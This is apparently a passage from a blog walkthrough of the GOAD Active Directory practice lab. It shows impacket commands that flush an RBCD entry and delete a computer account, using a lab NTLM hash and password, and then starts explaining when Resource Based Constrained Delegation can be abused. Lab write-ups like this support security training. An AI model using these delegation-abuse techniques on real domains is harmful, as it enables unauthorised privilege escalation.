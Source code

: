 ![deleg_constraint_deleg_exploit2.png](/assets/blog/GOAD/deleg_constraint_deleg_exploit2.png)

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:

```bash
rbcd.py -delegate-to 'castelblack$' -delegate-from 'rbcd_const$' -dc-ip 192.168.56.11 -action 'flush' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!' -delete
```

### Resource Based Constrained Delegation

- Resource Based Constrained delegation (RBCD)

- You can abuse RBCD when you can edit the attribute : msDS-AllowedToActOnBehalfOfOtherIdentity

> A computer account can edit his own attribute msDS-AllowedToActOnBehalfOfOtherIdentity
> This is usefull when you do ldaps NTLM relay (like in the drop-the-mic attack path), you can then edit the computer attribute and launch an RBCD exploitation.
{: .prompt-tip }

- An example of exploitation is when you got genericAll or genericWrite ACL on a Computer.

- You can find this in the lab when you look at the acl on users.

![deleg_find_acl.png](/assets/blog/GOAD/deleg_find_acl.png)
